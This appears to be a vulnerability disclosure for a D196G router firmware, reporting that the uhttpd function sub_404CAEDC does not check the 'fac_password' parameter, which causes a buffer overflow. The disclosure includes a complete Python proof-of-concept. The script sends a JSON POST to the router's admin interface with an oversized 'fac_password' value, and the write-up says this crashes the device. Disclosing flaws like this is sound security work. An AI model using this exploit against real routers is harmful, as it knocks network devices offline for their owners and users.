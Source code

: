 Submittion Date: 2025.4.18  
Vendor: D196G  
Firmware: d196gv1-cn-up_2020-01-09_11.21.44   
Download Link: https://service.fastcom.com.cn/download-265.html  

The function sub_404CAEDC handles the important parameter string 'fac_password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-mercury-2.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data={"uhttpd":{"webPwd":{"password":"a","fac_password":"a"*0x2000}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/mercury-1.png)
![image](image/mercury-2.png)
